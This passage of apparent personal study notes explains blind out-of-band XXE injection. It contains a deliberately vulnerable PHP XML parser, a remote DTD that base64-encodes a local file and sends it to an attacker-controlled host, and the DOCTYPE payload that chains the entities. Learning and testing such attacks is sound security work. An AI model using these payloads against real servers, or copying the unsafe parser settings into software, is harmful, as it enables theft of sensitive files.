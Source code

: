 `test.txt`:
![[Pasted image 20241109232141.png]]
`evil.dtd`:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```
## No Echo to read sensitive files (Blind OOB XXE)
Even if the server may have XXEs, it will not return any response to the attacker's browser or proxy.
We can use the Blind XXE bug to build an out-of-band data (OOB) channel to read data.
`xml.php` with problems:
```PHP
<?php
	libxml_disable_entity_loader (false);
	$xmlfile = file_get_contents('php://input');
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```
`test.dtd`:
```XML
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```
Payload:
```XML
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
- Call `%remote` first.
- Request the `test.dtd` from the remote server after calling.
- Call `%int` in `test.dtd`.
	- Call `%file` to capture the sensitive file from the server.
	- Send the result of `%file` into `%send`.
- Call `%send` to send the data we have read to our remote VPS.
![[311933150c46bf702bdff45bcbdd16a2.png]]
![[ffae731dd92c1675acd09c1a16b917fa.png]]
